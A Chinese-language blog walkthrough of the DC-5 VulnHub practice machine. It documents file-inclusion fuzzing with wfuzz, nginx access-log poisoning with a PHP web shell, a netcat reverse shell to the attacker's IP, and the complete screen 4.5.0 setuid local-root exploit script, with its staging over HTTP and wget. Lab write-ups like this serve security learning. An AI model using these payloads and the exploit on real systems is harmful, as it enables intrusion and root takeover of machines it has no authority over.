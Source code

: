 ```yaml
---
title: DC_5靶机渗透测试 
date: 2020-09-14 14:06
swiper: false # 将改文章放入轮播图中
swiperImg: '' # 该文章在轮播图中的图片，可以是本地目录下图片也可以是http://xxx图片
img: 'http://cdn.mxrblog.cn/ct_11.jpg' # 该文章图片，可以是本地目录下图片也可以是http://xxx图片
categories: walkthrough
tags: [渗透测试, DC]   # 可以是数组
top: false


---
```


# DC_5靶机渗透测试



[参考链接1](https://www.cnblogs.com/wzy-ustc/p/14606475.html)

[参考链接2](https://blog.mzfr.me/vulnhub-writeups/2019-07-09-DC5)



## 信息收集

- 首先扫描出靶机， IP为192.168.0.149

![image-20210701112058852](http://cdn.mxrblog.cn/image-20210701112058852.png)

- 扫描靶机开放端口, 开放80端口

![image-20210701112246220](http://cdn.mxrblog.cn/image-20210701112246220.png)

- 浏览器打开192.168.0.149

![image-20210701112421282](http://cdn.mxrblog.cn/image-20210701112421282.png)

- 用dirb和dirbuster分别进行目录扫描

![image-20210701114840558](http://cdn.mxrblog.cn/image-20210701114840558.png)

- 啥也没有， 尝试在contact us页面提交一些内容

![image-20210701115231365](http://cdn.mxrblog.cn/image-20210701115231365.png)

- 都能传东西了。可能存在一些文件包含漏洞吧，利用brupsuite查看信息

![image-20210701125839801](http://cdn.mxrblog.cn/image-20210701125839801.png)

- 寻找可以包含参数的文件变量名——使用工具wfuzz

```
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt http://192.168.0.149/thankyou.php?FUZZ=/etc/passwd  //FUZZ后面接被包含的文件
```

- 可以拿到与众不同的file文件，由于参数传进去了，自然就不一样了

![image-20210701150356952](http://cdn.mxrblog.cn/image-20210701150356952.png)

- 之前通过扫描知道了该靶机的网络服务器是nginx，Google搜素后发现nginx的日志文件可以在其配置文件/etc/nginx/nginx.config中找到, 于是我们修改file的参数为配置文件路径

![image-20210702002453469](http://cdn.mxrblog.cn/image-20210702002453469.png)

- 发现两个可以被利用的配置文件：

```
access_log:   /var/log/nginx/access.log
error_log:    /var/log/nginx/error.log
```

- 我们利用配置文件access_log， 在配置文件中写入木马：

```
<?php system($_GET['shell']);?>  //shell为参数可以被任意的修改

/var/log/nginx/access.log&shell=nc -e /bin/sh 192.168.0.130 4444  //nc向攻击机器·上发送shell
```

![image-20210702011941956](http://cdn.mxrblog.cn/image-20210702011941956.png)



- 在攻击机器上监听本地4444端口

![image-20210702012135051](http://cdn.mxrblog.cn/image-20210702012135051.png)

- 使用python脚本获取交互式shell

```
python -c "import pty;pty.spawn('/bin/bash')"
```

![image-20210702012623598](http://cdn.mxrblog.cn/image-20210702012623598.png)

- 发现我们只是普通用户，无法查看/home/dc中的内容，的想办法来提权
- 先查看可以提权的文件：

```
find / -perm -u=s -type f 2> /dev/null
```

![image-20210702013130321](http://cdn.mxrblog.cn/image-20210702013130321.png)

- 搜索一下screen-4.5.0，发现存在漏洞， 并找到所在的路径

![image-20210702015034118](http://cdn.mxrblog.cn/image-20210702015034118.png)

- 查看41154.sh

![image-20210702015722294](http://cdn.mxrblog.cn/image-20210702015722294.png)

- 按照上面说的一步一步来

```
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell 

```

- 首先在攻击机器上先编译好，然后再在攻击机器上开启http服务，将编辑好的文件传到靶机
- 在宿主机上分别执行以下命令：

```
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
```

- 得到文件后在文件所在目录开启http服务，如果不在文件所在的地方开启服务就会导致靶机显示找不到文件

```
python -m SimpleHTTPServer 9000
```

- 在靶机的/tmp文件夹使用wget下载文件，注意一定要在/tmp目录下载，一方面待会的行动会从/tmp目录下读取，更重要的是在/www/html目录下，无法下载文件，会显示无权限写入文件，这是因为/www/html目录的写入是需要root用户权限的

![image-20210702034418648](http://cdn.mxrblog.cn/image-20210702034418648.png)

- 让我们来执行接下来的步骤

![image-20210702034616197](http://cdn.mxrblog.cn/image-20210702034616197.png)

- 得到权限后进入root目录下

![image-20210702034740792](http://cdn.mxrblog.cn/image-20210702034740792.png)



### 太难了我！！！

